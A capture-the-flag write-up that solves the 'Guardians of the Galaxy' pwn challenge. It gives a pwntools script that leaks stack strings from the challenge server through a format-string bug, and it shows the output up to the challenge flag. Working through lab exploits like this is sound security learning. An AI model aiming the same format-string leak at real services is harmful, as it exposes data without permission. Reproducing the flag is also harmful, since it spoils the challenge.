 # Guardians of the Galaxy
### 📜 Description
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? \
`nc 0.cloud.chals.io 12690` \
**Author**: GlitchArchetype

* [guardians](https://github.com/WhileSEC/shctf/blob/main/challenges/pwn/guardians-of-the-galaxy/files/guardians)

---

### 🔍 Detailed Solution
Let's look at what happens when you run that binary given to us.
```
$ ./guardians 
Error, please message admins with 'infinity_error'.
```
This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:
```
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```
There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python/pwntools script here to achieve this loop:
```py
from pwn import *

for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.readS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
```
As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:
```
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```

